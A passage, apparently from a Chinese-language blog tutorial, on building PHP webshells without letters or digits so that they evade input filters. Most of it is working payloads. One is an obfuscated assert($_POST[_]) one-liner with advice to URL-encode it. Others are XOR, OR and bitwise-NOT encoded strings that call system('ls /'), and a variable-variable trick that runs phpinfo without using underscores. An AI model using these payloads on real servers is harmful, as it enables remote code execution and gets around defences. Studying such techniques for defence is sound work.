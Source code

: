 ```
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

缩减后即：

```
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```

**注意：**执行的时候要进行一次 URL 编码，否则 Payload 无法执行。

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HwGfBmdKKjXIQCLvLFajXnlcARCB1EumwBF6K3QbVVL66hMrpKCnhRw/640?wx_fmt=jpeg)

脑洞大开
----

看完上面的几种绕过姿势后，你也许对无字母数字 Webshell 的构造思路有了一定的了解，下面所讲的几种骚姿势会更加让你脑洞大开。

### 绕过`_`下划线

在前文中我们可以看到，很多 Payload 的构造都用到了下划线`_`作为变量名。但即便是下划线`_`被过滤了，我们也根本无需担心，因为我们本就可以不用`_`。

比如我们前面的像下面那几种 Payload 就没有用到_：

```
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08%00%00"^"%60%7b%20%2f");
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13%00%00"|"%60%60%20%2f");
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

再来看看另一个师傅用过这样的 Payload，也可以绕过，而且效果极好：

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```
